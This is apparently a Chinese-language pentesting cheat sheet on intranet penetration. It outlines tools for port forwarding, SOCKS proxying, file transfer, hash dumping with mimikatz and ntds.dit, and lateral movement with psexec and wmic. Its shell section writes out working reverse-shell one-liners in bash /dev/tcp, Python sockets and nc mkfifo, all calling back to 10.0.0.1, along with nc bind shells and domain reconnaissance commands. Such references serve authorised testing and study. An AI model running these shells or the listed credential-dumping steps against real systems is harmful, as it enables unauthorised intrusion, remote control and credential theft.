 内网渗透
================================

端口转发&&边界代理
--------------------------------

端口转发
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

- windows
    - lcx
    - netsh
- linux
    - portmap
    - iptables
- socket代理
    - Win: xsocks
    - Linux: proxychains
- 神器推荐
    - http://rootkiter.com/EarthWorm/
- 基于http的转发与socket代理(低权限下的渗透)
    - 端口转发: tunna
    - socks代理: reGeorg
- ssh通道
    - 端口转发
    - socks

获取shell
--------------------------------

- 常规shell反弹

::

    bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

- 突破防火墙的imcp_shell反弹
- 正向shell

::

    nc -e /bin/sh -lp 1234
    nc.exe -e cmd.exe -lp 1234

信息收集(结构分析)
--------------------------------

- 基本命令
    - 获取当前组的计算机名：``net view``
    - 查看所有域: ``net view /domain``
    - 从计算机名获取ipv4地址：``ping -n 1 DC1 -4``
    - 查看域中的用户名：``dsquery user``
    - 查询域组名称：``net group /domain``
    - 查询域管理员：``net group "Domain Admins" /domain``
    - 查看当前计算机名，全名，用户名，系统版本，工作 站域，登陆域：``net config Workstation``
    - 查看域控制器：``net group "Domain controllers"``
    - 查询所有计算机名称：``dsquery computer``

- 定位域控
- 端口收集
- 扫描分析

内网文件传输
--------------------------------

- windows下文件传输
    - powershell
    - vbs脚本文件
    - bitsadmin
    - 文件共享
    - 使用telnet接收数据
    - hta
- linux下文件传输
    - python
    - wget
    - tar + ssh
    - 利用dns传输数据
- 文件编译
    - powershell将exe转为txt，再txt转为exe

hash抓取
--------------------------------

- 本机hash+明文抓取
- win8+win2012明文抓取
- mimikatz
- ntds.dit的导出+QuarkPwDump读取分析
- vssown.vbs + libesedb + NtdsXtract
- ntdsdump
- 利用powershell(DSInternals)分析hash

远程连接&&执行程序
--------------------------------

- at&schtasks
- psexec
- wmic
- wmiexec.vbs
- smbexec
- powershell remoting
- SC创建服务执行
- schtasks
- SMB+MOF || DLL Hijacks
- PTH + compmgmt.msc 
